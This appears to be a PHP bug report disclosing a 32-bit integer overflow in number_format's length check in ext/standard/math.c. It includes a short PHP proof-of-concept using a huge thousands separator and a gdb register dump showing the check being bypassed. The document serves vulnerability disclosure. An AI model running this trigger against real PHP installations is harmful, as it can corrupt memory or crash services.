 The problem is that both *integral* variable and *thousand_sep_len* variable are unsigned integers, in 32 bits architectures this means 2^32 - 1 maximum value. So, if we set some appropriate values in *integral* and *thousand_sep_len*, for example: integral = 0x0a and thousand_sep_len = 0x65000000, ```integral + thousand_sep_len * ((integral-1) / 3)``` equals to 0x12F00000a, a result larger than the maximum representable value. In 32 bits architectures, the result will become 0x2F00000a and pass the check.


Test script:
----------------
``` php
<?php
ini_set('memory_limit', -1);
$thousands_sep = str_repeat("A", 0x65000000);
number_format(1234567890, 0, ".", $thousands_sep);
?>
```
Open php program in gdb, set a breakpoint at line *1149* in file ```ext/standard/math.c```

```
[----------------------------------registers-----------------------------------]
EAX: 0x2f00000a ('\n')
EBX: 0x52400010 ('A' <repeats 200 times>...)
ECX: 0xb7da8000 --> 0x1b8d9c
EDX: 0x2f000000 ('')
ESI: 0x65000000 ('A' <repeats 200 times>...)
EDI: 0xb7860188 --> 0x848b04e (<ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER>:      push   ebp)
EBP: 0xbfffbe88 --> 0xbfffbf28 --> 0xbfffbf68 --> 0xbfffbf88 --> 0xbfffbfc8 --> 0xbfffbff8 (--> ...)
ESP: 0xbfffbe30 --> 0x0
EIP: 0x834d202 (<_php_math_number_format_ex+316>:       cmp    eax,DWORD PTR [ebp-0x18])
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x834d1fd <_php_math_number_format_ex+311>:  mov    eax,DWORD PTR [ebp-0x18]
   0x834d200 <_php_math_number_format_ex+314>:  add    eax,edx
   0x834d202 <_php_math_number_format_ex+316>:  cmp    eax,DWORD PTR [ebp-0x18]
=> 0x834d205 <_php_math_number_format_ex+319>:  jae    0x834d223 <_php_math_number_format_ex+349>
 | 0x834d207 <_php_math_number_format_ex+321>:  mov    DWORD PTR [esp+0x8],0x89758e9
 | 0x834d20f <_php_math_number_format_ex+329>:  mov    DWORD PTR [esp+0x4],0x1
 | 0x834d217 <_php_math_number_format_ex+337>:  mov    DWORD PTR [esp],0x0
 | 0x834d21e <_php_math_number_format_ex+344>:  call   0x83c1a10 <php_error_docref0>
 |->   0x834d223 <_php_math_number_format_ex+349>:      mov    eax,DWORD PTR [ebp-0x18]
       0x834d226 <_php_math_number_format_ex+352>:      sub    eax,0x1
       0x834d229 <_php_math_number_format_ex+355>:      mov    edx,0xaaaaaaab
       0x834d22e <_php_math_number_format_ex+360>:      mul    edx
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbfffbe30 --> 0x0
0004| 0xbfffbe34 --> 0x89758e1 ("%.*F")
0008| 0xbfffbe38 --> 0x0
0012| 0xbfffbe3c --> 0xb4800000 ('A' <repeats 200 times>...)
0016| 0xbfffbe40 --> 0x41d26580
0020| 0xbfffbe44 --> 0x65000014 ('A' <repeats 200 times>...)
0024| 0xbfffbe48 --> 0xb4800000 ('A' <repeats 200 times>...)
0028| 0xbfffbe4c --> 0x41d26580
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0834d202      1150                    if (integral + thousand_sep_len * ((integral-1) / 3) < integral) {
gdb-peda$
```
